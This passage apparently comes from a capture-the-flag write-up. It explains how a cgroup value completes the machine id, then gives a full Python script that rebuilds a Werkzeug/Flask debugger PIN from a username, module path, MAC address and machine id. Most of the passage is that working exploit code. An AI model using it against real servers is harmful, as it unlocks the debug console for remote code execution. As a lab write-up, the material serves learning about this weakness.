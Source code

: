 ```

```

So the process id is `34691` and viewing the cgroup file shows:

![picture](https://i.imgur.com/0HKezb2.png)

So the value after the third brackets is what's needed to be appended onto the end of the machine id. Meaning the final script is:

```python
import hashlib
from itertools import chain
probably_public_bits = [
	'angus',# username
	'flask.app',# modname
	'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
	'/usr/local/lib/python3.8/dist-packages/flask/app.py' # getattr(mod, '__file__', None),
]

private_bits = [
    
	'158120054869863',# str(uuid.getnode()),  /sys/class/net/ens33/address
	'c34dfd2441154d6797e82cf80cd8b166stockchecker.service'# get_machine_id(), /etc/machine-id
]

h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
	if not bit:
		continue
	if isinstance(bit, str):
		bit = bit.encode('utf-8')
	h.update(bit)
h.update(b'cookiesalt')
#h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
	h.update(b'pinsalt')
	num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv =None
if rv is None:
	for group_size in 5, 4, 3:
		if len(num) % group_size == 0:
			rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
						  for x in range(0, len(num), group_size))
			break
	else:
		rv = num

print(rv)
```
